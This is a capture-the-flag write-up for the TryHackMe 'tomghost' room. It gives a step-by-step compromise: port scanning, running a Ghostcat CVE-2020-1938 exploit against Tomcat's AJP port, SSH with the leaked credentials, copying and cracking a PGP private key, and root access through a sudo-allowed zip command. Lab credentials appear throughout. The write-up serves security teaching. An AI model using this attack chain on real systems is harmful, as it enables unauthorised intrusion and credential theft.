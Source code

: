 # tomghost
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Admins Note: This room contains inappropriate content in the form of a username that contains a swear word and should be noted for an educational setting. - Dark

Tags
--
* AJP Connector
* Ghostcat CVE-2020-1938
* Hash Cracking
* Decryption
* Sudoers

Tools used
--
* nmap
* CVE-2020-1938.py
* gpg2john
* john
* gpg

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.18.94
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.18.94 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 00:06
Scanning 10.10.18.94 [65535 ports]
Discovered open port 22/tcp on 10.10.18.94
Discovered open port 53/tcp on 10.10.18.94
Discovered open port 8080/tcp on 10.10.18.94
Discovered open port 8009/tcp on 10.10.18.94
<SNIP>
```
Interesting looking for 8009 port. It is related to AJP connector, so it could be prone to the Ghostcat CVE-2020-1938. Read https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md for details.

Phase 2: Foothold
--
Let's retrieve an exploit and run it:
```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/

python2 CVE-2020-1938.py 10.10.18.94 -p 8009 -f WEB-INF/web.xml
```
The output will contain at the end a string like:
```
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
```
They seem to refer to an account. Let's use it for connecting by SSH:
```
ssh 10.10.18.94 -l skyfuck
```
Get the user flag by:
```
cat ../merlin/user.txt
```
Phase 3: Privilege Escalation
--
In the home folder of `skyfucker` user, we have two files: `credentials.pgp` (an encrypted file) and `tryhackme.asc` (a private key).

It should suggest us that the private key is used to decrypt the encrypted file, but we still need to retrieve the passphrase of the private key for decrypting. Let's copy the private key in the attacker machine and let's crack it:
```
scp skyfuck@10.10.18.94:/home/skyfuck/tryhackme.asc ./

gpg2john tryhackme.asc > gpg.hash
john gpg.hash --wordlist=./rockyou.txt

<SNIP>
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
<SNIP>
```
Go back to the victim machine and decrypt `credential.pgp` file:
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
<alexandrou>

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```
Let's access by merlin account:
```
su merlin
<asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j>
```
Let's see what merlin can run as sudo:
```
sudo -l

Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
Let's use `zip` command for zipping the root flag file and saving it in merlin current folder:
```
sudo /usr/bin/zip -1 -r flag.zip /root/root.txt

unzip flag.zip
cat root/root.txt
```
We got the root flag.